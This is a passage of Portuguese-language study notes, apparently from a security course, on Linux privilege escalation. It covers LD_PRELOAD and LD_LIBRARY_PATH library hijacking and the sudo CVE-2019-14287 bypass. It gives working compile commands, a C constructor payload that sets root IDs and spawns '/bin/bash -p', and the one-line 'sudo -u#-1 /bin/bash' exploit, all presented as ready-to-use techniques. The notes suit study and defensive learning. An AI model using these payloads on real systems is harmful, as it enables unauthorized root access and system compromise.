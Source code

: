 `gcc -fPIC -shared -o shell.so shell.c -nostartfiles`
- `-fPIC` -> Para executar em 64bits

`sudo LD_PRELOAD=/home/user/shell.so apache2`


## LD_LIBRARY_PATH

- Contém uma série de diretórios onde as shared libraries são procuradas primeiro
- O comando  `ldd /usr/sbin/apache2` serve pra printaras shared libraries usadas por um programa
- Criando uma shared library com o mesmo nome da utilizada pelo programa e mudando o path do LD_LIBRARY_PATH, é possível fazer com que o programa use essa nova lib maliciosa

```
ldd /usr/sbin/apache2
# No output terão vários .so, no curso é utilizado o libcrypt.so

# Criar um arquivo com o código C abaixo, no exemplo foi chamado de library_path.c

gcc -o libcrypt.so.1 -shared -fPIC library_path.c
# Compilando

sudo LD_LIBRARY_PATH=. apache2
# Setar pro diretório onde ta compilado o novo .so
```


```C
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
	unsetenv("LD_LIBRARY_PATH");
	setresuid(0,0,0);
	system("/bin/bash -p");
}
```



## CVE-2019-14287

- [Exploit](https://www.exploit-db.com/exploits/47502)
- Version : Sudo <1.8.28


```
sudo -l 

User hacker may run the following commands on kali:
    (ALL, !root) /bin/bash
# Se aparecer isso, ta vulnerável
# O usuário hacker não poderia usar o /bin/bash como root (!root)

# User privilege specification (Sudoers)
root    ALL=(ALL:ALL) ALL

hacker ALL=(ALL,!root) /bin/bash

sudo -u#-1 /bin/bash
#Exploit
```
